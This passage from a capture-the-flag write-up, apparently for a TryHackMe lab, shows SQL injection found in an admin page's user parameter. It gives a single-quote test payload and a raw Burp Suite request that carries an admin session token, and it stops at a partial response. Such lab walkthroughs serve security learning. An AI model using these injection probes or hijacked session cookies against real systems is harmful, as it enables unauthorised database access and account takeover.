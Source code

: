 As I was clicking around and I noticed that there was a parameter user which was giving the information of different users when I change the value of it.
![11](/assets/images/thm/marketplace/11.png)

So I tested if it was vulnerable to SQL injection and turns out it was.
#### Payload
```html
/admin?user=1'
```
![12](/assets/images/thm/marketplace/12.png)

So at first, I sent the request to the SQLMap in hope of dumping the whole database but I couldnot as there was some firewall in place which invalidates the admin's session cookie. So I decided to do a manual enumeration.

## Manual SQL injection
### Sending Request to Burp Suite
#### Request
```html
GET /admin?user=1 HTTP/1.1
Host: 10.10.38.49
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ne;q=0.8
Cookie: token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2MDMwMzk1MjJ9.0Mu4w5H8_TaTJQjtFOt4mHRYEkzxlK82npxm5xwj_IA
Connection: close
```
### Partial Response
```html
      <div>
          User system <br />
```